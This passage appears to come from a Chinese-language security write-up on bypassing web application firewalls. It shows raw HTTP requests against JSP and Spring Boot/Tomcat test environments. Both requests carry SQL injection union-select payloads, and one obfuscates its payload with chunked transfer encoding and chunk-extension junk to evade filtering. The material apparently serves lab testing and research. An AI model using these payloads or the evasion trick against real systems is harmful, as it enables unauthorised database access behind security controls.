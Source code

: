 ### 请求示例

```
POST /charseki.jsp HTTP/1.0
Host: test.env.com:2222
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Transfer-Encoding: chunked

2;&a=1 union select 1,2,3,4&
na
3;FyWNtf5IdLw
me=
2;s46FzpfpSVIZMW
11
2;MvNiVgkdUiltG6ABB4
11
0


```

![image-20230217134338922](static/img/63f42cc0f144a01007c502de.png)

## 0x03 springboot+tomcat

### 环境部署

`SpringBootPutTest-0.0.1-SNAPSHOT.jar`

### 请求地址（参数）

http://test.env.com:3333/test

### 报文示例

```
POST /test?aaa=111&bbb=222 HTTP/1.1
Host: test.env.com:3333
Content-Type: application/x-www-form-urlencoded
Content-Length: 54

a=1' union select 1,2,3#&uname=admin&passwd=Admin@1234
```
